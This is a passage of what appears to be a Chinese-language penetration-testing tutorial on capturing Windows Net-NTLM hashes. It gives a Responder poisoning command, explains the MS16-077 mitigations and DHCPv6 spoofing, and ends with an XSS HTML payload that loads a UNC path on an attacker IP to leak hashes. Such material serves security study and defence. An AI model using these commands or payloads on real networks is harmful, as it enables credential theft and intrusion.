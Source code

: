 ```
responder -I eth0 -rPvw
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmnayAB4fnskeDRKN90ibCkWrdD7R0WzMPEygnCyRjx97svqKGLzwUxFA/640?wx_fmt=png)

然而，微软在 2016 年发布了 MS16-077 安全公告，添加了两个重要的保护措施，以缓解这类攻击行为：  

*   系统再也无法通过广播协议来解析 WPAD 文件的位置，只能通过使用 DHCP 或 DNS 协议完成该任务。
    
*   更改了 PAC 文件下载的默认行为，以便当 WinHTTP 请求 PAC 文件时，不会自动发送客户端的凭据来响应 NTLM 或协商身份验证质询。
    

**配合 DHCPv6**

如果目标主机打上了 MS16-077 补丁的话，就无法通过 LLMNR/NBNS 欺骗来指定 PAC 文件了。目标机器只可以通过 DHCP 和 DNS 协议来获取 PAC 文件。但是 DHCP 和 DNS 都有指定的服务器，并且大部分情况下 DHCP 服务器和 DNS 服务器我们是不可控的，没法进行投毒，这时候我们就需要用到 IPV6 了。从 Windows Vista 以来，所有的 Windows 系统（包括服务器版系统）都会启用 IPv6 网络，并且优先级要高于 IPv4 网络。这里我们要用到 DHCPV6 协议。在 DHCPv6 协议中，客户端通过向组播地址发送 Solicit 报文来定位 DHCPv6 服务器，组播地址 [ff02::1:2] 包括整个地址链路范围内的所有 DHCPv6 服务器和中继代理。

DHCPv6 四步交互过程如下：

1.  客户端向 [ff02::1:2] 组播地址发送一个 Solicit 请求报文
    
2.  DHCP 服务器或中继代理回应 Advertise 消息告知客户端
    

3.  客户端选择优先级最高的服务器并发送 Request 信息请求分配地址或其他配置信息
    
4.  最后服务器回复包含确认地址，委托前缀和配置（如可用的 DNS 或 NTP 服务器）的 Relay 消息
    

通俗点来说就是，在可以使用 IPV6 的情况下 (Windows Vista 以后默认开启)，攻击者能接收到其他机器的 DHCPv6 组播包，攻击者通过攻击可以让受害者的 IPv6 DNS 设置为攻击者的 IPv6 地址。

#### 

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIWp1oJXcsHG9TZpVedJQOFmJSeEH6GAQdFoGVgID0iaP04M0rbfiaGnfw/640?wx_fmt=gif)

XSS

当我们能进行 xss 的时候，可以在网页中插入指定的 UNC 路径，来获取目标机器的 Net-NTLM Hash。

```
<!doctype html>
<html lang="en">
<head>
  <meta charset="UTF-8">
</head>
<body>
</body>
    <script src="\\192.168.106.5\test"></script>
</html>
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSm8qFCXl7VSGfjH1vDkyyR55mQhxnR5BGv7X9zjbz1kCe2s2Rq7tozdw/640?wx_fmt=png)

#### 

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIWp1oJXcsHG9TZpVedJQOFmJSeEH6GAQdFoGVgID0iaP04M0rbfiaGnfw/640?wx_fmt=gif)
